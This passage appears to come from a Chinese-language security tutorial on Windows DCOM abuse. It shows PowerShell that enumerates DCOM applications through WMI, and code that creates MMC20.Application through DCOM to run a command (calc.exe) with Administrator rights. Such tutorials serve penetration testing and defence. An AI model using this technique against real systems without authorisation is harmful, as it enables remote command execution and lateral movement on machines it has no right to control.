 ![](/assets/images/move/2020-07-06-12-59-50.png)
  
  Win 7, Windows Server 2008 默认安装 Powershell 2.0，不支持 Get-CimInstance:
  ```powershell
  Get-WmiObject -Namespace ROOT\CIMV2 -Class Win32_DCOMApplication
  ```
![](/assets/images/move/2020-07-06-13-07-07.png)

2. 通过 DCOM 执行任意命令

  调用 MMC20.Application 执行命令：
  ```powershell
  #管理员权限执行 PowerShell
  $com = [activator]::CreateInstance([type]::GetTypeFromProgId("MMC20.Application", "127.0.0.1"))
  $com.Document.ActiveView.ExecuteShellCommand('cmd.exe', $null, "/c calc.exe", "Minimzed")
  ```
  执行完毕，将以当前会话执行 Administrator 权限的 calc.exe。
